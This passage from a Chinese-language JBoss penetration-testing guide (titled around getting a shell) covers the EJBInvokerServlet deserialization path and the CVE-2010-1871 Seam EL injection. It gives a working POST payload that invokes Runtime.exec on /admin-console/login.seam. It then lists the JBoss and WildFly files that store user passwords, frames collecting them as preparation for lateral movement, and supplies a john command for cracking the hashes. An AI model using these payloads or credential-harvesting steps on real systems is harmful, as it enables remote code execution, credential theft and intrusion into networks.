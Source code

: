跟CVE-2015-7501利⽤⽅法⼀样，只是路径不⼀样，这个漏洞利⽤路径
是 `/invoker/EJBInvokerServlet`

## JBoss seam2模板注入

### CVE-2010-1871

#### 漏洞描述

`JBossSeam`是一个`JavaEE5`框架，把JSF与`EJB3.0`组件合并在一起，从而为开发基于Web的企业应用程序提供一个最新的模式。`JBossSeam`处理某些参数化`JBossEL`表达式的方式存在输入过滤漏洞。如果远程攻击者能够诱骗通过认证的`JBossSeam`用户访问特制的网页，就可能导致执行任意代码。

#### 影响版本

Redhat Jboss_enterprise_application_platform:4.3.0 

#### 漏洞利用

1、此漏洞是通过`seam`组件中插入`#{payload}`进行模板注入，可以在以下链接中插入要执行的方法，通过Java反射机制来获取到（`Java.lang.Runtime.getRuntime().exec()`方法）,从而可以传入任何想要执行的命令。

```
/admin-console/login.seam?actionOutcome=/success.xhtml?user%3d%23{}的#{}
```

2、POC如下，其中cmd代表传入的远程命令。在`/admin-console/login.seam`路径下，POST传入构造好的`payload`，即可对此漏洞利用。

```
actionOutcome=/success.xhtml?user%3d%23{expressions.getClass().forName('Java.lang.Runtime').getDeclaredMethod('getRuntime').invoke(expressions.getClass().forName('Java.lang.Runtime')).exec(cmd)}
```

## 其它漏洞与利用

### Jboss 7.x与WildFly控制台用户密码hash破解

搜集`jboss`中的所有密码,可以为后续内网横向移动提前做好准备
在7.x以下的版本，jboss用户密码通常默认都是直接明文保存在下面的文件中的

```
C:\Users\tale\Desktop\jboss-4.2.3.GA\server\default\conf\propsjmx-console-users.properties
```

![image.png](jboss_getshell.assets/1592147160_5ee63cd88e9da.png!small)

而高版本的`jboss`和`wildfly`通常都是加密保存在下面的文件中,默认密码加密格式为 
`HEX( MD5( username ':' realm ':' password))`

```
C:\services\wildfly-10.1.0.Final\standalone\configuration\mgmt-users.properties
```

`john`也对此算法支持,编号为`1591`，可以对其进行破解

```
# john --wordlist=password.list --format=dynamic_1591
```
